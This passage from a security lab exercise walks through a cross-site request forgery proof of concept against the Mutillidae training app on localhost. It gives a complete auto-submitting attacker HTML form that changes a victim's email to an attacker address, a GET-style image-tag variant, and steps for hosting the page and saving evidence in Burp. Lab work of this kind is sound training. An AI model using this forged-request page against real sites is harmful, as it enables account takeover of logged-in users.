 ### A. Create a basic attacker HTML (example)

Save the following as `~/expt07/attacker.html`. Replace the `action` and input names/values to match the captured request.

```html
<!-- attacker.html (example for a POST-based change-email form) -->
<!DOCTYPE html>
<html>
  <body>
    <h3>Attacker page — auto-submits a change email request</h3>

    <form
      id="csrfForm"
      action="http://localhost/mutillidae/changeemail.php"
      method="POST"
    >
      <input type="hidden" name="email" value="attacker@evil.local" />
      <!-- Do NOT include the server CSRF token -->
    </form>

    <script>
      document.getElementById("csrfForm").submit();
    </script>
  </body>
</html>
```

> NOTE: For a GET-style CSRF, you can craft a `<img src="http://target/path?param=value">` or a link.

### B. Host attacker page locally

```bash
cd ~/expt07
python3 -m http.server 8000
# attacker page available at: http://localhost:8000/attacker.html
```

### C. Execute PoC (lab steps)

1. Ensure victim browser session is still logged into the target site (cookie present).
2. In the **same** browser (so cookies are sent), open `http://localhost:8000/attacker.html`.
3. Burp will capture the outgoing request (the forged POST/GET) — find it in **HTTP history** and save it as `evidence/03_csrf_request.txt`.
4. Verify state change in the application (e.g., view profile/email now `attacker@evil.local`) — take screenshot `evidence/04_state_changed.png`.
5. In your `finding_summary.md`, note exact request, timestamp, and that the attack used the victim’s session cookie implicitly.

**If it fails:** you may see the server reject the request — record the response (403, missing token, redirect). Save as `evidence/05_csrf_rejected.txt`.

---
